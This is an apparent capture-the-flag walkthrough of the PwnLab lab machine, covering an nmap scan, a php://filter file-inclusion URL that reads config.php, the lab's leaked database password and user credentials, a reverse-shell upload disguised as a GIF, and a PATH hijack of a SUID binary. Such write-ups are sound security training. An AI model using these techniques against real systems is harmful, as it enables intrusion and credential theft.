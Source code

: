```yaml
---
categories: [Proving Grounds Play, Walkthrough]
tags: [PrivEsc]
---
```


Let’s Find the Victim Machines IP Address ⤵️

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled.png)

```bash
IP : 10.0.2.33
```

## Port Scan Results ⤵️

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%201.png)

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/pwnlab]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.33
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-22 16:06 IST
Nmap scan report for 10.0.2.33
Host is up (0.0016s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: PwnLab Intranet Image Hosting
|_http-server-header: Apache/2.4.10 (Debian)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          34509/tcp6  status
|   100024  1          45792/udp   status
|   100024  1          51759/udp6  status
|_  100024  1          51803/tcp   status
3306/tcp  open  mysql   MySQL 5.5.47-0+deb8u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.47-0+deb8u1
|   Thread ID: 41
|   Capabilities flags: 63487
|   Some Capabilities: LongPassword, Support41Auth, InteractiveClient, ConnectWithDatabase, IgnoreSigpipes, LongColumnFlag, FoundRows, Speaks41ProtocolNew, Speaks41ProtocolOld, IgnoreSpaceBeforeParenthesis, SupportsTransactions, SupportsCompression, SupportsLoadDataLocal, DontAllowDatabaseTableColumn, ODBCClient, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: 0%h[rJYb_9=egVY:X*gH
|_  Auth Plugin Name: mysql_native_password
51803/tcp open  status  1 (RPC #100024)
MAC Address: 08:00:27:EF:BA:B4 (Oracle VirtualBox virtual NIC)
```

## Web Enumeration ⬇️

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%202.png)

Now lets try to access config.php file as I found while directory listing  For that I need to use the `php://filter` command >>

```bash
http://10.0.2.33/?page=php://filter/convert.base64-encode/resource=config
```

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%203.png)

I got this ➡️

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%204.png)

```php
<?php
$server	  = "localhost";
$username = "root";
$password = "H4u%QJ_H99";
$database = "Users";
?>
```

Now I got the sql access >>

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%205.png)

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%206.png)

```sql
+------+--------------------------------+
| user |      pass > base64 decoded     |
+------+--------------------------------+
| kent | Sld6WHVCSkpOeQ== > JWzXuBJJNy  |
| mike | U0lmZHNURW42SQ== > SIfdsTEn6I  |
| kane | aVN2NVltMkdSbw== > iSv5Ym2GRo  |
+------+--------------------------------+
```

So with kent credentials I got logged in —>

But I can also se the index.php file like config so let’s see >>

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%207.png)

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%208.png)

Now I see so I can use lang as a input for cookies so let’s try something —> 

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%209.png)

Now lets try to upload our reverse shell payload , but I was unable upload the .php file so I made some changed while uploading the payload ⤵️

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%2010.png)

1. I changed the file name and added `.gif`
2. I changed the `Content-Type:` from `application/x-php` to `image/gif`.
3. Then I added the magic number of gif file as `GIF89a;` to make it look like gif file .
4. In response I got the upload location .

Now lets access the file as we accessed `/etc/passwd` file >>

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%2011.png)

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%2012.png)

I got the Local Privilege shell So lets exploit it further now ➡️

So while enumerating I got this >>

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%2013.png)

So in this case `msgmike` executes cat command to read the following file and it also contains the SUID permissions for mike to provide a executable shell .

therefore I need to make `cat` as `bin/bash` and it will be executed by `msgmike` .

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%2014.png)

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%2015.png)

Lets see what it does >>

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%2016.png)

Now the simple thing to do >>

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%2017.png)

can’t use cat because of the $PATH that’s why I used more here ⬇️

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%2018.png)